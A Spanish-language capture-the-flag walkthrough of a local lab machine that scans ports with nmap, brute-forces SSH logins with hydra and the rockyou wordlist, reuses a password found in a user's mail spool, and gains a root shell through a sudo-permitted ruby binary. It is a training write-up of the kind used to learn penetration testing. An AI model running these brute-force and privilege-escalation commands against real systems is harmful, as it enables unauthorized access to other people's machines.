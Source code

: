 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Al ver que tiene el puerto 80, vemos que corresponde a una web, por lo tanto vamos a ver que esconde.
![alt text](image-1.png)

Vemos que la web no hay nada, vamos a ver si hay algo en el código fuente.
![alt text](image-2.png)

Vemos que nos da dos usuarios, por lo tanto, vamos a realizar dos ataques de fuerza bruta sobre el servicio ssh, uno con cada usuario.

```
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![alt text](image-3.png)

```
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![alt text](image-4.png)

Vemos que no está encontrando nada con el usuario juan, así que vamos a entrar con el usuario camilo.
```
ssh camilo@172.17.0.2
password: password1
```
![alt text](image-5.png)

Vamos a poner un comando para poder ver el prompt.
```
script /dev/null -c bash
```
![alt text](image-6.png)

Tras estando enumerando todas las carpetas del usuario, vemos que en la ruta `/var/mail/camilo` hay un archivo interesante.
```
Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Básicamente nos da el password de Juan, así que vamos a cambiar de usuario.
```
su juan
password: 2k84dicb
```
![alt text](image-7.png)

Una vez hemos cambiado de usuario, vamos a escalar a root aprobechandonos de binarios con permisios de este.
```
sudo -l
```
![alt text](image-8.png)

Vemos que nos podemos aprobechar del binario de ruby.
```
sudo /usr/bin/ruby -e 'exec "/bin/sh"'
```
![alt text](image-9.png)